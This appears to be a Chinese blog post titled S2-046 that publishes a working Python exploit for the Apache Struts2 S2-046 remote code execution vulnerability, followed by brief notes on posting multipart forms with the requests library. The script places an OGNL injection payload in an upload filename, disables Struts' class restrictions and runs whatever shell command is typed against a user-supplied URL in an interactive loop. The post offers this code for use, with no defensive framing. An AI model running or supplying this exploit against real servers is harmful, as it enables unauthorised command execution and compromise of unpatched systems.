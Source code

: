 ```yaml
---
id: 105
title: S2-046
date: 2017-08-12T12:01:04+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

上次为了一点i春秋的泉币发了s2-045 exp感觉好羞愧 这次扔到这里吧

<pre line="1">import requests

print('code by 北风飘然')
print('''
 _____   _       ___   _____   _____        ___   __   _
|  _  \ | |     /   | /  _  \ |  _  \      /   | |  \ | |
| |_| | | |    / /| | | | | | | |_| |     / /| | |   \| |
|  ___/ | |   / / | | | | | | |  _  /    / / | | | |\   |
| |     | |  / /  | | | |_| | | | \ \   / /  | | | | \  |
|_|     |_| /_/   |_| \_____/ |_|  \_\ /_/   |_| |_|  \_|
''')


def exp(url,command):
    header = {'Content-Length':'1000000000','Cache-Control':'max-age=0','Upgrade-Insecure-Requests':'1','User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36',
              'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2','Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
              }
    a = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\x00b"
    a = a.replace('whoami',command)
    files ={"upload":(a,open('exp.txt', 'rb'),"text/plain")
    }

    r= requests.post(url, files=files)
    print(r.text)



if __name__=='__main__':
    url = input('addrs \n')
    a = 1
    while a != 'q':
        command = input('command :\n')
        exp(url,command)
</pre>

python3 == 昨天就看到poc了

想写exp没找打命令位置

还有个坑 用requests库post提交表单

response=requests.post(url,files=files)

就可以

files的格式呢

files = {‘name’: (<filename>, <file object>,<content type>, <per-part headers>)}

表单内容如下

Content-Disposition: form-data; name=’name’;filename=<filename>

Content-Type: <content type>

<file object>